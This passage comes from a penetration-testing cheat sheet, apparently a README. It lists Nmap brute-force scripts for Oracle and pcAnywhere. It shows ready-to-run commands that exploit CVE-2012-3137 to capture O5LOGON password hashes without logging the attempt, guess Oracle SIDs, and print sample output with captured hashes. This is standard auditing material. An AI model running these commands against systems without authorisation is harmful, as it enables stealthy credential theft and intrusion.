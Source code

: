 

### Oracle - Brute-Force-stealth    

_Exploits the CVE-2012-3137 vulnerability, a weakness in Oracle's O5LOGIN authentication scheme_ The vulnerability exists in Oracle 11g R1/R2 and allows linking the session key to a password hash_ When initiating an authentication attempt as a valid user the server will respond with a session key and salt_ Once received the script will disconnect the connection thereby not recording the login attempt_ The session key and salt can then be used to Brute-Force the users password_
     
```sh 
nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL 192.168.1.12
```

     |PORT     STATE  SERVICE REASON
     |1521/tcp open  oracle  syn-ack
     | oracle-brute-stealth:
     |   Accounts
     |     dummy:$o5logon$1245C95384E15E7F0C893FCD1893D8E19078170867E892CE86DF90880E09FAD3B4832CBCFDAC1A821D2EA8E3D2209DB6*4202433F49DE9AE72AE2 - Hashed valid or invalid credentials
     |     nmap:$o5logon$D1B28967547DBA3917D7B129E339F96156C8E2FE5593D42540992118B3475214CA0F6580FD04C2625022054229CAAA8D*7BCF2ACF08F15F75B579 - Hashed valid or invalid credentials
     |   Statistics
     |_    Performed 2 guesses in 1 seconds, average tps: 2


### oracle-sid - Brute-Force                     

_Guesses Oracle instance/SID names against the TNS-listener_
     
```sh 
nmap --script=oracle-sid-brute --script-args=oraclesids=/path/to/sidfile -p 1521-1560 192.168.1.12
```
```sh 
nmap --script=oracle-sid-brute -p 1521-1560 192.168.1.12
```

     |PORT     STATE SERVICE REASON
     |1521/tcp open  oracle  syn-ack
     | oracle-sid-brute:
     |   orcl
     |   prod
     |_  devel

### pcAnywhere - Brute-Force                     

_Performs Brute-Force password auditing against the pcAnywhere remote access protocol_
     